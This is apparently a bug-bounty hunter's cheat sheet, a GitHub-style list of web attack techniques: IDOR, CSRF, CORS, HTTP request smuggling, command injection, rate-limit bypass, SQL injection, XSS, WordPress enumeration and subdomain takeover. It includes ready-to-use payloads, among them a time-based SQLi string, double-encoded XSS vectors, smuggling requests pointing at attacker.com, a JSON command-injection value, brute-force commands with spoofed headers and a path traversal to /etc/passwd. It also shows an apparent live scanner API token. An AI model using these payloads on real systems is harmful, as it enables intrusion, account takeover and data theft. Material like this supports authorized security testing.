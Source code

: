 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	https://deepstrike.io/blog/what-is-http-request-smuggling

    Attack Types: 
    -------------
    
	1- CL.TE: The attacker adds both CL-[Content-Length] & TE-[Transfer-Encoding]
 	        --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 6
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0\r\n
	    	|	\r\n
	      	|	G
		--------------------------------
	- Front-end deal with CL &&& Back-end deal with TE
	RESPONSE : then the victim do a normal request but the last content appears in this request
 		--------------------------------
	   	|	GPOST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------

	------------------------------------------------------------------------------------------------------------------
	2- TE.CL :

		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 3
	       	|	Transfer-Encoding: chunked
		|	
	  	|	8
	    	|	SMUGGLED
	      	|	0
		--------------------------------
 
 	- Fron-end deal with TE && Back-end deal with CL
  	RESPONSE: 
   		--------------------------------
	   	|	SMUGGLED
     		|	0
     		|	POST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------
	------------------------------------------------------------------------------------------------------------------

    Exploits: 
    ---------	
     1- Open Redirect:
       		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: victim.com
	     	|	Content-Length: 117
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0 
    		|	
	    	|	GET / HTTP/1.1
      		|	Host: attacker.com
	 	|	Content-Type: application/x-www-form-urlencoded
   		|	Content-Length: 10
      		|
	      	|	x=
		|
		--------------------------------

 	---------------------------------------------------------------------------------



 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>GraphQL API</summary>

	graphw00f Tool 
  	InQL Tool in BurpSuite
 	Clairvoyance Tool to brute-force GraphQL
 
 
 	/graphql
	/graphiql
	/graphql.php
	/graphql/console
	/api
	/api/graphql
	/graphql/api
	/graphql/graphql
	/v1/graphql
	/v2/graphql
	/graphql/v1
	/graphql/v2
	/gql
	/graphql-playground
	/playground
	/altair
	/query
	/graphql/query
	/graphql-explorer
	/api/v1/graphql
	/api/v2/graphql
	/public/graphql
	/private/graphql
	/internal/graphql 




 

</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

